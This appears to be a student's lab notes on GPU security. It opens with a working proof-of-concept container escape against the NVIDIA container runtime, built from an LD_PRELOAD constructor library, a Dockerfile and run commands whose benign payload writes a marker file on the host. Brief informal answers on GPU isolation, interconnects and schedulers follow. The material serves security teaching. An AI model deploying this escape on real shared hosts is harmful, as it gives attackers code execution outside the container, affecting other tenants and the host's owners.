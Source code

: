 # Exercise 1

poc.c file:

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) init() {
        FILE *fptr;

        // Open a file in writing mode
        fptr = fopen("/tmp/output-jord-sam.txt", "w");
        if (fptr == NULL)
                printf("The file is not opened.");
        else{
                fprintf(fptr, "user: jord-sam\n");
        }
        fclose(fptr);
}
```
Dockerfile:
```dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/poc.so
ADD poc.so /
```
Commands:
```bash
$make poc.so
$docker build . -t nct-exploit-jord-sam
$docker run --rm --runtime=nvidia --gpus=all nct-exploit-jord-sam
$cat /tmp/output-jord-sam.txt
```

# Exercise 2.1

**Container GPU Issues: What security vulnerabilities might arise when GPUs 
are shared between containers or when containers have direct GPU access?**

- Context-switching timing penalties exfiltrates shared GPU operations from delays in 
obtaining requested resources
- MPS is off by default in cloud computing to allow for different priorities for 
processes, but that just slows down sampling (by orders of magnitude) but the side-channel
attack is still possible

**VM GPU Passthrough: What attack vectors are introduced when GPUs are passed 
through directly to virtual machines?**

- Directly = can read everything -> Seems bad (can just get information directly)
- Bad configs will let one VM read the other VM

**Isolation Concerns: How might GPU memory persistence, side-channel attacks, 
or privilege escalation differ between containerized and VM environments?**

![vm vs containerization](image.png)

- Shared GPUs are cheaper (allow multiple people to use them) but tradeoff with the
security risk
- There are services that only let you rent whole GPU (lambda labs allows for GPU 
sharing, vast ai doesn't) 
- VM means attacks need to go through the hypervisor so less prone to side-channel 
timing attacks but are vulnerable to lower-level hardware attacks



# Exercise 2.2 

Your Task: After reviewing the materials above, analyze advanced GPU security considerations by addressing:

    Software vs. Hardware Isolation: How does Kubernetes namespace-based multi-tenancy compare to NVIDIA MIG's hardware partitioning for GPU security?

    - Same thing as earlier VMs vs containers. Kubernetes is easier to escalate privileges e.g. if misconfigured. 
    - Hardware partitioning (NVIDIA) is sharing on the same physical GPU -> vulnerable to attacks like exercise 1.


    Attack Surface Analysis: What new vulnerabilities emerge when multiple tenants share GPU resources, and how do different isolation approaches mitigate these risks?

    - The moment you 'break out' of your partition youd get access to everything else. 
    - Isolation with hardware makes this harder, but there's still going to be information you can learn from the behaviour of the GPU. 
    - DOS by overloading one particular process, denying other services on the same GPU trying to use that same process.

    Resource Guarantees: How do the quality-of-service guarantees provided by MIG differ from traditional container resource limits for GPU workloads?

    - MIG ensures one client cannot impact the work or scheduling of other clients and provides enhanced isolation for customers. With MIG, each MIG partition's processors have separate and isolated paths through the entire memory system - the on-chip crossbar ports, L2 cache banks, memory controllers, and DRAM address buses are all assigned uniquely to an individual Instance.
    - But 1/7th of a GPU is really limited, like if you're a datacentre you probably don't want it ?



Deliverable: Compare the security trade-offs between software-only multi-tenancy and hardware-assisted GPU partitioning, identifying which approach would be more suitable for a high-security AI training environment and why.




# Exercise 3.1 GPU Interconnect Architecture



    PCIe Lanes: How do PCIe lanes affect GPU performance? What happens when a GPU has fewer lanes than expected?

    More lanes -> more data flowing to and fro. Bottlenecked, slower than expected 

    NVLink Benefits: Why use NVLink instead of PCIe for GPU-to-GPU communication? What performance advantages does it provide?

    Fast.

    System Architecture: In a multi-GPU training setup, when would data flow through PCIe vs. NVLink?

    NVlink if just gpus talking to each other. pcie for anything else.

Deliverable: Draw a diagram describing how data flows between CPU, system memory, and 4 GPUs connected via both PCIe and NVLink, labeling the bandwidth differences.

[diagram]

Stretch: How does this extend to multi-node clusters? How does infiniband fit in?

infiniband connects the switches that control the nvlinks. lots of data etc. essentially still gpus talking to each other but across nodes.








# Exercise 3.2 

Example scenario: NeuralFlow serves 15 specialized AI models to 10+ enterprise clients with strict SLA requirements. They handle 10,000+ daily inference requests while performing continuous online learning from client feedback. Recent issues include service outages during peak hours, unpredictable latency when batch learning jobs interfere with real-time inference, and resource conflicts between different client workloads requiring data isolation.

Your Task: Recommend Kubernetes or Slurm for NeuralFlow's mixed real-time inference and online learning workloads.

Deliverable: Think about and describe which software would be most appropriate.


Kuberenetes




